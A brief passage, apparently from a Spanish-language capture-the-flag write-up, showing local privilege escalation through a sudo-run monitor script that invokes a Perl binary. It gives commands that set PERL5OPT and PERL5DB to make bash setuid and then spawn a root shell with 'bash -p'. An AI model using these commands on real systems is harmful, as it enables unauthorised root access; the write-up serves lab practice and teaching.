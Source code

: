 Utiliza /bin/bash y /bin/xml_pp. Veamos que es /bin/xml_pp

![image](33.png)

Es un binario perl que puede ser vulnerable a perl_startup Local Privilege Escalation. Tenemos que ejecutar:

```sh
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```
```sh
bash -p
```

Y tenemos root!

![image](34.png)